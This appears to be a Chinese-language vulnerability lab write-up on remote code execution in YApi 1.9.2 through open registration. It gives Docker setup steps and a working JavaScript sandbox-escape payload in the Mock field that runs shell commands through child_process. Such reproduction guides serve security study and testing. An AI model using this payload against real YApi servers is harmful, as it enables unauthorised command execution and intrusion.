





YApi开放注册导致RCE¶
YApi是一个API管理工具。如果注册功能开放，攻击者可以使用Mock功能执行任意代码。
参考链接：
漏洞环境¶
执行如下命令启动一个YApi 1.9.2：
docker compose up -d
环境启动后，访问http://your-ip:3000即可查看到YApi首页。
漏洞复现¶
首先，注册一个用户，并创建项目和接口：


接口中有一个Mock页面可以填写代码，我们填写包含恶意命令的代码：
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()

然后，回到“预览”页面可以获得Mock的URL：

打开这个URL，即可查看到命令执行的结果：
